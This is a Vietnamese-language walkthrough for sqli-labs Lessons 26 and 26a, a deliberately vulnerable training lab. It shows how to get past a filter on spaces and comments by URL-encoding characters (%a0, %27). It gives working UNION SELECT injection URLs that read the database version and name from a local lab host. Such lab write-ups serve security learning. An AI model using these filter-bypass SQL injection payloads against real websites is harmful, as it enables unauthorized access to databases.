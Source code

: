 # Những việc làm được với lesson-26
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-26

![](../images/lesson26/screen_4.png)

khi ta đăng nhập vào thì ta thấy nó rất giống bài 25 ta sẽ đi tìm cấu trúc của bài này 

![](../images/lesson26/screen.png

Ta thử như các bài trước thì kết quả vẫn như thế và không có được kết quả gì cả, Vậy ta có thể thay được một số ký bằng cách khác. 

![](../images/lesson15/screen_7.png)

Những ký tự comment và spaces đã không sử dụng được. ta sẽ thay các ký tự như sau Ký tự khoảng trống thành `%a0` còn ký tự comment `'` thành `%27` 

Ta sẽ được kết quả như sau 

```
http://192.168.80.225/sqli-labs/Less-26/?id=0%27%A0UNION%A0SELECT%A00,@@version,database()%a0%271
```

![](../images/lesson15/screen_8.png)

Lấy tên DB hiện tại 

```
http://192.168.80.225/sqli-labs/Less-26/?id=0%27%A0UNION%A0SELECT%A00,database(),1%a0%271
```

![](../images/lesson15/screen_8.png)

với cách này thì các bạn có thể select bằng cách giống như với bài 25 rồi nhé ^^

# Bài 26a
```
http://192.168.80.225/sqli-labs/Less-26/?id=0%27%A0UNION%A0SELECT%A01,database(),@@version%A0%271
```

![](../images/lesson26/screen_10.png)


Tương tự như với bài 26 thì nó chỉ khác nhau bằng với cấu trúc của nó mà thôi. ta có thể show được dữ liệu bằng các cách thay câu truy vấn vào database() là được ví dụ với version sẽ là 

```
http://192.168.80.225/sqli-labs/Less-26/?id=0%27%A0UNION%A0SELECT%A01,@@version,2%A0%26%26%A0%271
```


